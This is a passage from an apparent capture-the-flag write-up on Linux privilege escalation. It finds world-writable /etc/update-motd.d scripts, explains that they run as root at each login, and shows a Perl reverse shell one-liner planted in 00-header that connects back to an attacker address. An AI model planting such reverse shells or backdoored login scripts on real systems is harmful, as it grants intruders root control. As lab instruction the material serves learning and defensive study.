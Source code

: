 As for writable scripts, LinENum does not explicitly look for them. So let's run this command to find them.

`find / -writable -xdev 2>/dev/null | grep -v -E "/home/sysadmin|/tmp|/lib"`

* xdev - avoids different filesystems like /proc and /run
* 2>/dev/null - suppresses error messages

The second part of the command is an **inverse grep** to help us filter away folders we are not interested in. Vary this part to fit your purpose. Since I have already manually looked through /home/sysadmin and /tmp, I exclude them here.

The results:

```
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
/home/webadmin/note.txt
/var/lock
```

Yup, the update-motd.d looks interesting. Let's learn more.

**What is update-motd?**

[This page]() tells it all. Message Of The Day (MOTD) is the message that greets you when you log in. And update-motd is a tool to make the MOTD more dynamic.

* https://wiki.ubuntu.com/UpdateMotd
* http://manpages.ubuntu.com/manpages/bionic/man5/update-motd.5.html

From the manpages above:

> Executable scripts in /etc/update-motd.d/* are executed by pam_motd(8) **as the root user at
       each  login**,  and  this  information  is  concatenated in /run/motd.dynamic.

Since we can write to the MOTD scripts, we can escalate to root by placing a reverse shell code in the MOTD scripts.

I used vi to add a Perl reverse shell code (what we used above for our initial shell) to the 00-header script.

`vi /etc/update-motd.d/00-header`

Let's double check to make sure that our code is in the file.

```
$ cat 00-header
#!/bin/sh
<SNIP>
echo "\nWelcome to Xh4H land \n"
perl -e 'use Socket;$i="10.10.X.X";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Now, because the scripts are executed at each login, let's ssh into the machine to trigger the execution.
